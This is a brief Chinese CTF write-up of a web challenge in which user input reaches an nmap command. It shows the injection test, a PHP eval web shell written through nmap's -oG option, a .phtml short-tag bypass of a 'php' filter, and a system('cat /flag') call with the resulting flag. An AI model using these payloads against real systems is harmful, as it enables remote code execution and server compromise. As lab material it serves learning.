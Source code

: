 ![[Pasted image 20221127120248.png]]

---
首页长这样
![[Pasted image 20221127120317.png]]

---
尝试判断是否可注入（废话，显然可以
```php
localhost' #
```
![[Pasted image 20221127121511.png]]

```php
' -oG shell.php <?php eval($_GET["cmd"]);?> #
```
> Hacker...

emmm，大意了
应该是把php过滤掉了

```php
' -oG shell.phtml <? eval($_GET["cmd"]);?> #
```
> Host maybe down

```php
/shell.phtml?cmd=system('cat /flag');
```
> \# Nmap 6.47 scan initiated Sun Nov 27 04:26:32 2022 as: nmap -Pn -T4 -F --host-timeout 1000ms -oX xml/824ef -oG shell.phtml \ flag{b868b5bd-41f0-4933-97f5-930bd42b73a3}
> \#'
> \# Nmap done at Sun Nov 27 04:26:33 2022 -- 0 IP addresses (0 hosts up) scanned in 0.90 seconds

氵就完事儿了.jpg

#Web #RCE #PHP #绕过 #nmap